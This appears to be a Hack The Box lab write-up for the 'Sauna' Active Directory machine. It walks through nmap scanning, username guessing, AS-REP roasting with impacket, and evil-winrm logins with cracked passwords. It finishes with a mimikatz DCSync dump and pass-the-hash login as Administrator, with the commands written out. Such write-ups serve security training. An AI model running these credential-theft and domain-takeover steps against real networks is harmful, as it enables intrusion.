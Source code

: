 ```yaml
---
title: "Hack The Box - Sauna"
tags: [windows,easy,kerberoasting,dcsync attack, bloodhound]
categories: HackTheBox-Active-Directory
---
```


![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Sauna%20Box%2030605ca311aa474389359e585ddf6bd6/Untitled.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Sauna%20Box%2030605ca311aa474389359e585ddf6bd6/Untitled.png)

# **Sauna Box Walkthrough**

**NMAP:**

```
Nmap scan report for 10.10.10.175
Host is up (0.19s latency).
Not shown: 988 filtered ports
PORT STATE SERVICE VERSION
53/tcp open domain?
| fingerprint-strings:
| DNSVersionBindReqTCP:
| version
|_ bind
80/tcp open http Microsoft IIS httpd 10.0
| http-methods:
|_ Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Egotistical Bank :: Home
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2020-07-18 11:59:22Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open tcpwrapped
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open tcpwrapped
```

---

## Enumerating and Kerberoasting

=> On the website we find the following employees names :

[https://camo.githubusercontent.com/85011b15d9cd02aab69782b2bb45f58a0cb5ac35/68747470733a2f2f692e696d6775722e636f6d2f543232695477532e706e67](https://camo.githubusercontent.com/85011b15d9cd02aab69782b2bb45f58a0cb5ac35/68747470733a2f2f692e696d6775722e636f6d2f543232695477532e706e67)

=> Lets make an usernames file using this information :

```
Fsmith
Scoins
Hbear
Btaylor
Sdriver
Skerb

```

=> Now we will run kerbrute to find valid users and then try kerberoasting it

[https://camo.githubusercontent.com/9ac8939cbacac8c00adaeb8851e0899d4241a38b/68747470733a2f2f692e696d6775722e636f6d2f487673306a55422e706e67](https://camo.githubusercontent.com/9ac8939cbacac8c00adaeb8851e0899d4241a38b/68747470733a2f2f692e696d6775722e636f6d2f487673306a55422e706e67)

- Kerberoasting

    Download : [https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py)

    **python3 GetNPUsers.py EGOTISTICAL-BANK.LOCAL/ -usersfile User.txt -outputfile hash.txt -dc-ip 10.10.10.175**

[https://camo.githubusercontent.com/c25012b543ddd45f7c9d05b4b5770256e20e44b4/68747470733a2f2f692e696d6775722e636f6d2f344a4e787164482e706e67](https://camo.githubusercontent.com/c25012b543ddd45f7c9d05b4b5770256e20e44b4/68747470733a2f2f692e696d6775722e636f6d2f344a4e787164482e706e67)

Cracking it we get the password : **Thestrokes23**

=> Lets login with evil-winrm.

**evil-winrm -u fsmith -p Thestrokes23 -i 10.10.10.175**

---

## Privilege Escalation [ DCSync Attack ]

[https://camo.githubusercontent.com/e523e0c0ae61ddf0df430f4d9533d3a4d40f1d18/68747470733a2f2f692e696d6775722e636f6d2f7a6962424244662e706e67](https://camo.githubusercontent.com/e523e0c0ae61ddf0df430f4d9533d3a4d40f1d18/68747470733a2f2f692e696d6775722e636f6d2f7a6962424244662e706e67)

=> Lets switch to the 2nd user we found.

**evil-winrm -u svc_loanmgr -p Moneymakestheworldgoround! -i 10.10.10.175**

=> Running bloodhound we find that our user has GetChangesAll privileges.

[https://camo.githubusercontent.com/c1d7aba200a72ef0b409a892de8d66701658f93f/68747470733a2f2f692e696d6775722e636f6d2f724e6d744174612e706e67](https://camo.githubusercontent.com/c1d7aba200a72ef0b409a892de8d66701658f93f/68747470733a2f2f692e696d6775722e636f6d2f724e6d744174612e706e67)

=> Lets upload mimikatz and perform dcsync attack : [https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)

**./mimikatz.exe "lsadump::dcsync /user:Administrator" "exit"**

=> We get the Administrator NTLM Hash which we can use to authenticate :

[https://camo.githubusercontent.com/cd7b49123826d15df3905daf4fb86113d815e44f/68747470733a2f2f692e696d6775722e636f6d2f554b6a684866552e706e67](https://camo.githubusercontent.com/cd7b49123826d15df3905daf4fb86113d815e44f/68747470733a2f2f692e696d6775722e636f6d2f554b6a684866552e706e67)

**NTLM:d9485863c1e9e05851aa40cbb4ab9dff**

=> Lets switch to Administrator :

**evil-winrm -u Administrator -H d9485863c1e9e05851aa40cbb4ab9dff -i 10.10.10.175**

[https://camo.githubusercontent.com/5e284e73819940089aeddc945a9dfe5d78170705/68747470733a2f2f692e696d6775722e636f6d2f4b464d434149572e706e67](https://camo.githubusercontent.com/5e284e73819940089aeddc945a9dfe5d78170705/68747470733a2f2f692e696d6775722e636f6d2f4b464d434149572e706e67)
